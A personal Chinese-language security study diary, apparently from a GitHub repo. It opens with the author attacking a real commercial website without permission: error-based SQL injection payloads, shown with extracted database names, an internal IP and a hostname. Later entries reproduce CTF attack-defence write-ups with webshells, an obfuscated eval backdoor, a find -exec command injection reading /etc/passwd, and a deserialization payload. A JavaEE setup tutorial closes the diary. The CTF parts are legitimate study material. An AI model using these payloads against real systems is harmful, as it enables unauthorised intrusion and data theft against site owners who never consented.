









# 20180526-20180527
这两天参加了SUCTF，所以部分东西不是有太大关联性。
## 第一个站
半夜聊天水群，CTF有大不动，被大佬拉着日站，并且自己实战确实很垃圾。

[第一个站](www.now.cn)

[登陆界面](https://www.now.cn/user/login.php?&loginErrMsg=user-illegal&returnpage=)

试了
 > admin'or''='

这样能百度到的弱口令。
大佬说这个能拿下。
自己一开始的思路就是找到登陆界面尝试admin登陆（自然的用到弱口令，因为自己只会弱口令）

##### 那么这里提个问：如果遇到登陆界面你会怎么做？有多少种方法能用管理员账号登陆？
- 最简单的最不容易的，知道管理员账号密码
- 最简单粗暴的，爆破
- 百度到的弱口令
- 通过注册界面得到真实的用户名，然后在进行登陆（乌云
- 通过源码文件泄露，得到登陆的方法（乌云
- 通过敏感目录的泄露，得到管理员的信息（乌云
- 重置密码（[乌云](http://wooyun.chamd5.org/bug_detail.php?wybug_id=wooyun-2016-0218005)比较有趣，当然不止这一个案例，可以去搜重置密码
- SQL注入（乌云
- 备份文件泄露跟源码文件泄露一个道理
- cookies欺骗（[乌云](http://wooyun.chamd5.org/bug_detail.php?wybug_id=wooyun-2016-0215297)
- github泄露信息（乌云
- weblogic命令执行获得数据库（[乌云](http://wooyun.chamd5.org/bug_detail.php?wybug_id=wooyun-2016-0213542)
- xss打到cookies（[乌云](http://wooyun.chamd5.org/bug_detail.php?wybug_id=wooyun-2016-0209419) [xss](http://wooyun.chamd5.org/bug_detail.php?wybug_id=wooyun-2016-0212216)对于打开cookies这个操作不会

如果用admin来登陆并且验证码输入正确，密码是瞎打的情况下，URL会出现这种情况：
> https://www.now.cn/user/login.php?&loginErrMsg=user-password-error&returnpage=/user/panel.php?&UserName=admin

很明显，user-password-error，密码错了，而他指向的页面是panel.php
输入test用户名，也是同样的做法得到的：
> https://www.now.cn/user/login.php?&loginErrMsg=user-password-error&returnpage=/user/panel.php?&UserName=test

那我尝试更改，url信息
> https://www.now.cn/user/login.php?&loginErrMsg=user-legal&returnpage=admin.php


然后无果就去看乌云涨涨姿势。

想想之前，还有子域名可以用。
于是打开[子域名工具](https://phpinfo.me/domain/)
发现一个站点:
> http://admin.now.cn


域名就用(now.cn)，密码随便输，然后显示


谷歌到scp3是抗体的意思，应该是应对那些非法访问者的。
有趣。
明天在搞，发现登陆后台的方法好多，现在了解的就有10多个。

第二天，大佬问我日的怎么样，我尴尬一笑

- 弱口令有可能，但是不可能
- xss 我是在没有其他突破点的时候才用 而且xss效果不太好
- 爆破对这种站也不太可能
- 最后一句话，挖注入

自己注册个账户，然后域名管理 关键字框 注入 禁 = 
大佬发来一些代码
```
闭合
1%'||2>1#
1%')||2>1#（闭合成功）

database()
//, -- , /**/, #, --+, -- -, ;,%00,--a 1%') and extractvalue(rand(),concat(0x3a,database()));
#database()=db_now_net_cn

version()
1%') and extractvalue(rand(),concat(0x3a,version())); 
#version()=5.1.65-log

user()
1%') and extractvalue(rand(),concat(0x3a,user())); 
#user()=nownetcn@10.0.61.137

@@version_compile_os
1%') and extractvalue(rand(),concat(0x3a,@@version_compile_os)); 
#@@version_compile_os=unknown-linux-gnu

@@datadir
1%') and extractvalue(rand(),concat(0x3a,@@datadir)); 
#@@datadir=/mysql/data/

@@hostname
1%') and extractvalue(rand(),concat(0x3a,@@hostname)); 
#@@hostname=mainsite-DB
```
经历了近一个小时的干瞪眼，大佬问我做的怎么样，我却说自己干瞪眼了半天
```
1%') and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables where TABLE_SCHEMA like database() limit 0,1))); 
```

然后大佬也没有绕过去。难道我是小白鼠？

不管那么多了，今晚先日日试试，并且那个“%'”很麻瓜。继续看乌云，多学点姿势才是。

谷歌
```
intitle 后台登陆
```
随便捡一些站，首先先一个个试百度的万能密码，万能密码都玩烂了，貌似没什么创意（逃，另外就是，这种后台登陆的站点放在外网能访问到的地方，可以这么假设这个站点管理员安全意识并不高，或者这个站点对这个管理员没有太大的重要性，或许只是一个介绍的网站（逃。

sqlmap还有POST注入，表示对这个注入方式没遇到过。
[POST登陆框注入实战](https://blog.csdn.net/u011781521/article/details/58594941)

看了这篇了解了。感觉自己有些东西真的需要看视频。
打好基础，然后日破天

HTTP认证框架
```
RFC 7235 定义了一个 HTTP 身份验证框架，服务器可以用来针对客户端的请求发送 challenge （质询信息），客户端则可以用来提供身份验证凭证。质询与应答的工作流程如下：服务器端向客户端返回 401（Unauthorized，未被授权的） 状态码，并在  [WWW-Authenticate](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/WWW-Authenticate) 首部提供如何进行验证的信息，其中至少包含有一种质询方式。之后有意向证明自己身份的客户端可以在新的请求中添加 Authorization 首部字段进行验证，字段值为身份验证凭证信息。通常客户端会弹出一个密码框让用户填写，然后发送包含有恰当的 Authorization  首部的请求。
```
是该搞个XSS平台了，自己一点东西都没有玩毛线XSS
明天计划搭建一个

爆破还可以之爆破用户名，密码可以不一样。

有的时候注册是个很好的动作。[乌云](http://wooyun.chamd5.org/bug_detail.php?wybug_id=wooyun-2016-0171339)

# 20180528
晚上不见不散。

有事所以就没看了
# 20180529

看了一点乌云漏洞库，感觉还是老样子。

上周末的SUCTF还有很多值得研究的地方。也快期末了，好好复习，复现好题目做做，补补知识点，再看看乌云，这就是计划。

那天一定要搭建一个xss平台。
```
http://wooyun.2xss.cc/bug_detail.php?wybug_id=wooyun-2015-0163581


```
tools:
> Tamper Popup

这个工具已经不再Firefox商店里了，表示看乌云看到的，能够看后面的存储信息。那是不是应该补一补chrome 的F12和Firefox的F12功能呢。

好了，有点累了，就到这吧，今天想把homework复现下的，搞环境搞了大半天（逃，然后看了下乌云，总之如果想深入xss漏洞原理，还是要有个xss平台的。而且今天的XXE还没学，哎，少玩点吧。

# 20180530

昨晚

环境一直没搞出来，原来
> -p 80:80

参数没加，自己宛如一个智障。


### suctf/2018-web-homework

按照wp说的

这里就有点不会了

还是先补一波XXE漏洞吧，昨晚留下的坑，今天比较要填完

## XXE必备知识点

1. XML指可扩展标记语言；XML被设计用来传输和存储数据。
2. XML和HTML的不同：
    - XML被设计为传输和存储数据，其焦点是数据的内容。HTML被设计用来显示数据，其焦点是数据的外观。HTML旨在显示信息，而XML旨在传输信息。

题目中有上传文件的功能。我想说，上次出题就死在这，哎，可惜~

wp中给出了一个payload：
> http://target:8888/show.php?module=SimpleXMLElement&args[]=http://vps/XXE/obj.xml&args[]=2&args[]=true

其中target是题目的IP地址，而VPS是放了obj.xml,evil.xml,1.php的服务器。这里有个问题，我如何让这个ip得到我的xml呢？先安装apache再说。

> http://192.168.128.131/show.php?module=SimpleXMLElement&args[]=http://127.0.0.1/XXE/obj.xml&args[]=2&args[]=true

自己在本地试了下，貌似也不是那回事


我没想到，如果127联通不了192呢，这样文件也就穿不了。

然后自己对这个就很好奇了，那天研究研究。

由于自己的VPS是用的女朋友手机号买的，想换个镜像还需要短信验证，所以就不打扰她了。

开始getshell那题，主要是fuzz。

web fuzz是之前看别人铁三总结的时候，一直不明白咋做，这次SUCTF的getshell有个好的机会，先复现下burp fuzz流程吧。

谷歌了下，得知burp fuzz就是对字符进行遍历，获得返回，得出过滤了那些字符。

但是，这是个文件上传的题，waf也是对上传的内容做了检测，那么如何才能fuzz呢？

中午没怎么睡午觉，现在有点困。明天还要早起，但是是英语课，哎，要早起没办法。

# 20180531

昨晚问了下那位大佬，getshell如何fuzz过滤字符串的。

我看了他的结果，感觉自己有点智障，当时。


然后下课，回来试了下


然后爆破

```
<?php
```

后面的内容就可以了。

然后在这里简单解释下fuzz：
> 就是一个个试，然后把范围不断缩小。

今天下午，看到K0rz3n师傅在空间发分享的[自动化渗透框架](https://xz.aliyun.com/t/2362)

看了下文章，感觉还行，而且本来自己暑假也准备边挖洞，边写这种工具的。无奈，认识的人先发不了。


但是，确实一个很好的指路标签吧（其实，也没多少不知道的知识。

然后自己在本地搭建了一个


问了师傅，他说前端还没开源╮(╯-╰)╭

只能暑假慢慢搞了。

今晚唯一比较有点价值的收获就是在Linux快速搭建lamp环境
```
docker pull tutum/lamp
docker run -d -p 80:81 -p 3306:3306 tutum/lamp
docker exec -it ID /bin/bash
git clone 相关项目
```
配合daocloud加速器，时间缩短了很多。

在虚拟机搞了下typecho


首先需要创建一个typecho数据库，因为typecho不能自己创建数据库。而且tutum/lamp镜像中的mysql是没有密码的。

> mysql -uroot

创建数据库
> CREATE DATABASE typecho;

ok,到这里差不都数据已经完成了，然后就是安装了。

然后，我想对这个想法进行安全监测，按照我现有的知识，出现问题比较多的地方出在3306端口


利用auxiliary/scanner/mysql/mysql_version模块查看mysql信息。

 
>  MySQL 5.5.47-0ubuntu0.14.04.1

想用sqlmap对其进行注入

看样子，就知道没成功啊。。
然后想用navicat 连接数据库


以上配置都连不了。  

以上都是假装自己不知道mysql密码的情况下做的测试。

就算，cms有问题，getshell了，get的也是docker的shell，貌似docker逃逸目前还没出现过

深夜耐不住寂寞，又对他进行了getshell测试


shell.php中的内容


菜刀连接成功


不过是在docker里面的

我试试脏牛漏洞实现docker逃逸。

先给出系统版本信息


按照网上的教程，本地并没有复现成功

`make`命令用不了


原因是没有安装，安装好之后，用`make`

也没有用。
快三点半了，先到这了。

# 20180601
今天61，我想把typecho在docker里搞好。

但是自己，对于服务器这东西还是不太了解，待会要耐心看完。

搞一个晚上，没搞好，我天，这么难的么。

首先，我在服务器中装了`nginx`，然后下载`typecho`的git，然后`docker build`

会不会是安全组的问题？

不搞了，我天，之前就被这个东西整迷过。。。

我知道了，被阿里的安全组搞懵了，安全组没开80端口。

来搭建xss平台。
先把nginx卸载掉
然后
> apt-get install apache2 php7.0 libapache2-mod-php7.0

配置好环境。
然后去/var/www/html目录中git clone 项目
```
https://github.com/firesunCN/BlueLotus_XSSReceiver
```
日火大佬的平台傻瓜式操作安装。

需要注意的是，js脚本需要自己本地构造
另外SMTP不熟，邮箱功能缺失

然后，自己服务上的博客站点也搭建完成，那次自己写一个博客cms。

### 一点git知识，怕以后忘记

#### 继续修改本地代码，然后提交并推送到github
```
git add .
git commit -m "提交说明"
git pull
git push
```

# 20180602
今天把原理复习纲要整理好。

使用GitHub的图床：
> https://raw.githubusercontent.com/TUGOhost/study_note/master/image/图片名

我来试试这个[Typora](https://typora.io/)

这个界面很好看，比较简洁干净。

Typora确实很不错，界面简洁干净，使用操作方便，在这里强烈推荐使用。

一叶飘零师傅分享了他在2018年红帽杯线下的一些经历，打算跟着他的[wp](http://skysec.top/2018/05/27/2018RedHat-AD-Web/)复现一下

### web1

#### 存在后门

用D盾扫了下


然后看了下`index.php`确实存在后门



漏洞出现的地方在:

```php
@eval($_POST['admin']);
```

#### 命令执行

文件路径：

> wp-admin/tools.php

漏洞出现的地方在:



```php
/** WordPress Administration Bootstrap */
$poc="a#s#s#e#r#t"; $poc_1=explode("#",$poc); $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; @$poc_2($_POST['_']);
```

非常容易能看出

```php
@assert($_POST['_']);
```

跟上一个一样的。

#### 命令执行2

文件路径:

> wp-login.php

漏洞出现的地方:

```php
case 'debug':
        $file = addslashes($_POST['file']);
        system("find /tmp -iname ".escapeshellcmd($file));
        break;
```

按照[官方文档](http://php.net/manual/zh/function.addslashes.php)说明

> addslashes()返回字符串，该字符串为了数据库查询语句等的需要在某些字符前加上了反斜线。这些字符是单引号（*'*）、双引号（*"*）、反斜线（*\*）与 NUL（NULL 字符）。 

只要不出现这些字符，即可不受addlashes()影响

然后发现系统会执行find命令，后面参数可控

测试加上`-or`，发现

```shell
sky@ubuntu:~/Desktop$ find /tmp -iname sth -or a
find: paths must precede expression: a
Usage: find [-H] [-L] [-P] [-Olevel] [-D help|tree|search|stat|rates|opt|exec|time] [path...] [expression]

```

有exec参数

我们尝试

> find /tmp -iname sth -or -exec ls

但是发现会被告知缺少参数，查阅资料可以知道： -exec 参数后面跟的是command命令，它的终止是以;为结束标志的，所以这句命令后面的分号是不可缺少的，考虑到各个系统中分号会有不同的意义，所以前面加反斜杠。 我们尝试 

> find /tmp -iname sth -or -exec ls \;

发现程序会循环打印ls结果

我们加上-quit以只打印一次即可

> find /tmp -iname sth -or -exec ls \; -quit

然后读文件

.jpg)

 最后得到

poc:

> file=sth -or -exec cat /etc/passwd ; -quit

为什么;前不需要加转义符？ 因为escapeshellcmd()[官方手册](http://php.net/manual/zh/function.escapeshellcmd.php)是这样描述的 

```
字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义。
```

所以经过处理，程序会自动给我们的;加上转义符

```php
<?php
	$file="sth -or -exec cat /etc/passwd ; -quit";
	var_dump(escapeshellcmd($file));
	string(38) "sth -or -exec cat /etc/passwd \; -quit";
```

#### 命令执行3

文件路径

> wp-includes/class-wp-cachefile.php

hhhh，看了师傅写的，表示红帽杯线下不过是个过场，打给那些领导看的。

首先[原题连接](https://github.com/bl4de/security_whitepapers/blob/master/RIPS_PHP_Security_Calendar_2017.md)

简单的说下思路：

1. 首先传入$_COOKIE[‘data’] 
2. 触发**construct()**
3. 触发$data = $this->loadData($data);
4. 触发unserialize($data);
5. 触发**destruct() 
6. 触发createCache() 
7. 最后来到file_put_contents($file, $tpl); 达成任意写文件的目的 

构造

```php
<?php
class Template {
    public $cacheFile = './sky.php';
    public $template = '<?php phpinfo();';
}
$a = new Template();
$data = serialize($a);
echo $data;
```

得到

>  O:8:"Template":2:{s:9:"cacheFile";s:9:"./sky.php";s:8:"template";s:16:"<?php phpinfo();";} 

添加上绕过检测的部分，最后给出payload 

>  a:1:{i:0;O:+8:"Template":2:{s:9:"cacheFile";s:9:"./sky.php";s:8:"template";s:16:"<?php phpinfo();";}} 

简单说明一下，首先利用 

>  a:1:{i:0;..........} 

绕过第一个检测 

>  (substr($data, 0, 2) !== 'O:' 

利用`+`绕过第二个检测 

>  !preg_match('/O:\d:\/', $data) 

### web2

#### 命令执行1

还是用D盾扫描下


`1.php`和`2.php`都存在漏洞

代码如下:

> 'SITE_DOMAINS'                  => '123sadccv=>1)&&($_GET[a]($_GET[b]));exit();$a=array(a', //网站的其他域名

有webshell

> (@_GET[a]($_GET[b]))

触发方式:

> a=system&b=cat /flag

演示下:

```php
<?php
$a='system';
$b='dir';
$a($b);
?>
```

#### 命令执行2

代码如下:

> $_uU=chr(99).chr(104).chr(114);$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).$_uU(50).$_uU(93).$_uU(41).$_uU(59);$_fF=$_uU(99).$_uU(114).$_uU(101).$_uU(97).$_uU(116).$_uU(101).$_uU(95).$_uU(102).$_uU(117).$_uU(110).$_uU(99).$_uU(116).$_uU(105).$_uU(111).$_uU(110);$_=$_fF("",$_cC);@$_();

文件为混淆过的小马，结果为


小马为：

> eval($_POST[2]);

>  2=pipinfo();

剩下内容请看[连接](http://skysec.top/2018/05/27/2018RedHat-AD-Web/)

简单的认识了下AWD线下了。

不过红帽杯线下大佬云集，一分多钟就被种了马。

准备看下《无间双龙》。之前就想看的。不过还是想准备下工具之类的。

### XSS练习平台

[XSS练习平台](https://xss.haozi.me)

很有趣的一个xss平台。


想进去，就构造这样的payload

> https://xss.haozi.me/#/?input=<script>alert(1)</script>

这是他的[答案](https://github.com/haozi/xss-demo/issues/1)


这个code就有点麻瓜了，我来解释下吧：

```
对一些特殊字符进行了转义，所以无法从引号中逃逸。但在判断域名时有纰漏，https://www.segmentfault.coma、https://www.segmentfault.com.cn这样的也被认为是正确的域名。只需注册类似segmentfault.com.af （af:阿富汗，cn已经被人注册走了）这样的域名即可。当然我并没有真的去注册，.af只是个例子。 
```

工具也没怎么整理。哎。睡了。

# 20180603

一天看完《无间双龙》，社会责任感考试也考完了。

喜欢上了一首个《ふたつの唇 》--EXILE 

那比较轻快的节奏感，虽然听不懂，但很好听，主唱的嗓音很温柔。

一笑从容，一剑惊鸿。 归雀来兮，白衣飘红。 记白衣，墨丝扬，唇角一抹轻笑何时入心房。 远执念，思君郎，眉间一点朱砂，只道是，江湖无悔，不诉离殇。  

完善了机组，知识点很密集。

然后明天一天呆在实验室复习机组。

# 20180603-周记

首先完成了上次说搭建XSS平台的口头承诺


并看了一叶飘零师傅的线下wp，感觉还是学到了很多东西，比如权限控死了怎么拿到flag，而且不是一开始就开始写`waf`的而是按照cms版本把应该出现的漏洞或者是D盾查看一下简单的漏洞点(补充说明一下，红帽杯线下是ssh连接的是可以传输题目源码的。)

其次，就是看了点乌云，了解了大概进入后台的方法，但是貌似也没有别的了。详情请看`20180526-20180527`那篇日记总结的。

在情感方面自己做的确实过火了。保持一颗平常心，万事难测，不是事事顺心。

然后就是复习了，自己也在按照老师给的范围找知识点，希望考试能够不挂科。

另外SUCTF的几个我也复现了下，homework那道题，由于需要服务器，所以就不试了，其实自己传个脚本上去，也没多大事情😂

回顾了下一周所做的事情，学到了点东西，但希望自己还是能会开发点。不要再做个脚本小子了。

然后我也想往开发那边靠拢，自己本专业也不是信安的，开发的还是占比大点，不是说以后工作非要干本专业的，而是信安确实不怎么吃香，要伺候好甲方爸爸，另外刚出去的大学生月薪上万的很少，所以自己还是从底层开始干起，不要以为想着自己能赚多少钱，而是想想自己一天学了多少东西，希望不要荒废自己的时光，赚钱还不是看能力决定的，踏踏实实走好每一步，没有一步登天的事，这些话一定要记在心里，因为自己错就错在想要一步登天。

# 20180604

复习机组。

复习机组。看了死亡笔记。

然后一天就这样了。明天好好把机组第四章总结完。

# 20160605

这几天追剧，搞得我日记写得很不全，所以追剧是堕落的源头，以后慎重追剧。

今天要做的是就是JavaEE入门。

首先先谷歌`JavaEE`入门

#### 环境

首先需要环境和工具

[jdk](http://www.oracle.com/technetwork/java/javase/downloads/index.html)环境自不多说

还需要[Tomcat](http://tomcat.apache.org/)

自行下载，然后按照这个[教程](https://blog.csdn.net/weixin_38322156/article/details/72852607)完成相关环境配置。

在Windows机器下，Tomcat可以通过执行一下命令来启动：

```
%CATALINA_HOME%\bin\startup.bat
或者
C:\apache-tomcat-5.5.29\bin\startup.bat
```

在Windows机器下，Tomcat可以通过执行一下命令来关闭：

```
%CATALINA_HOME%\bin\shutdown
或者
C:\apache-tomcat-5.5.29\bin\shutdown
```




两张图解释，配置好了环境。

然后编写第一个案例

在`C:\apache-tomcat-7.0.88\webapps\ROOT`中建立`test.jsp`其中的目录路径按自己的本地情况来。

`test.jsp`代码如下：

```jsp
<%@ page contentType="text/html;charset=UTF-8" %>
<%
out.print("hello world");
%> 
```

效果

#### 将 Tomcat 和 Eclipse 相关联

[eclipse](http://www.eclipse.org/downloads/)下载

Eclipse J2EE下载后，解压即可使用，我们打开Java EE ，选择菜单栏Windows-->preferences（Mac 系统为 Eclipse-->偏好设置），弹出如下界面： 


选择server



选择上图，然后按照下图完成配置



按下`Finish`完成配置

选择 "File-->New-->Dynamic Web Project"，创建 TomcatTest 项目： 


创建项目之后的文件结构：

- deployment descriptor：部署的描述。
- Web App Libraries：自己加的包可以放在里面。
- build：放入编译之后的文件。
- WebContent:放进写入的页面。

在WebContent文件夹下新建一个test.jsp文件。在下图中可以看到它的默认代码： 

```jsp
<%@ page language="java" contentType="text/html; charset=ISO-8859-1"
    pageEncoding="ISO-8859-1"%>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=ISO-8859-1">
<title>Insert title here</title>
</head>
<body>

</body>
</html>
```

接着我们修改下test.jsp文件代码如下所示： 

```jsp
<%@ page language="java" contentType="text/html; charset=ISO-8859-1"
    pageEncoding="ISO-8859-1"%>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=ISO-8859-1">
<title>helloworld</title>
</head>
<body>
<%
	out.println("hello world");
%>
</body>
</html>
```

然后修改下浏览器


运行成功：



#### Servlet 实例创建

我们也可以使用以上环境创建 Servlet 文件，选择 "File-->New-->Servlet"

位于 TomcatTest项目的 /TomcatTest/src 目录下创建 "HelloServlet" 类，包为 "com.runoob.test":

HelloServlet.java 代码如下所示： 

```java
package com.runoob.test;
import java.io.IOException;
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

/**
 * Servlet implementation class HelloServlet
 */
@WebServlet("/HelloServlet")
public class HelloServlet extends HttpServlet {
    private static final long serialVersionUID = 1L;
       
    /**
     * @see HttpServlet#HttpServlet()
     */
    public HelloServlet() {
        super();
        // TODO Auto-generated constructor stub
    }

    /**
     * @see HttpServlet#doGet(HttpServletRequest request, HttpServletResponse response)
     */
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        // 使用 GBK 设置中文正常显示
        response.setCharacterEncoding("GBK");
        response.getWriter().write("jsp你好");
    }

    /**
     * @see HttpServlet#doPost(HttpServletRequest request, HttpServletResponse response)
     */
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        // TODO Auto-generated method stub
        doGet(request, response);
    }

}
```

创建 /TomcatTest/WebContent/WEB-INF/web.xml 文件（如果没有），代码如下所示： 

```xml
<?xml version="1.0" encoding="UTF-8"?>  
<web-app version="2.5"   
    xmlns="http://java.sun.com/xml/ns/javaee"   
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"   
    xsi:schemaLocation="http://java.sun.com/xml/ns/javaee   
    http://java.sun.com/xml/ns/javaee/web-app_2_5.xsd">  
  <servlet>  
     <!-- 类名 -->  
    <servlet-name>HelloServlet</servlet-name>  
    <!-- 所在的包 -->  
    <servlet-class>com.runoob.test.HelloServlet</servlet-class>  
  </servlet>  
  <servlet-mapping>  
    <servlet-name>HelloServlet</servlet-name>  
    <!-- 访问的网址 -->  
    <url-pattern>/TomcatTest/HelloServlet</url-pattern>  
    </servlet-mapping>  
</web-app>  
```

接着重启 Tomcat，浏览器访问 **http://localhost:8080/TomcatTest/HelloServlet**： 



##### JSP处理

网络服务器需要一个 JSP 引擎，也就是一个容器来处理 JSP 页面。容器负责截获对 JSP 页面的请求。

JSP 容器与 Web 服务器协同合作，为JSP的正常运行提供必要的运行环境和其他服务，并且能够正确识别专属于 JSP 网页的特殊元素。


以下步骤表明了 Web 服务器是如何使用JSP来创建网页的： 

- 就像其他普通的网页一样，您的浏览器发送一个 HTTP 请求给服务器。 
- Web 服务器识别出这是一个对 JSP 网页的请求，并且将该请求传递给 JSP 引擎。通过使用 URL或者 .jsp 文件来完成。 
- JSP 引擎从磁盘中载入 JSP 文件，然后将它们转化为 Servlet。这种转化只是简单地将所有模板文本改用 println() 语句，并且将所有的 JSP 元素转化成 Java 代码。 
- JSP 引擎将 Servlet 编译成可执行类，并且将原始请求传递给 Servlet 引擎。 
- Web 服务器的某组件将会调用 Servlet 引擎，然后载入并执行 Servlet 类。在执行过程中，Servlet 产生 HTML 格式的输出并将其内嵌于 HTTP response 中上交给 Web 服务器。 
- Web 服务器以静态 HTML 网页的形式将 HTTP response 返回到您的浏览器中。 
- 最终，Web 浏览器处理 HTTP response 中动态产生的HTML网页，就好像在处理静态网页一样。 

以上提及到的步骤可以用下图来表示： 


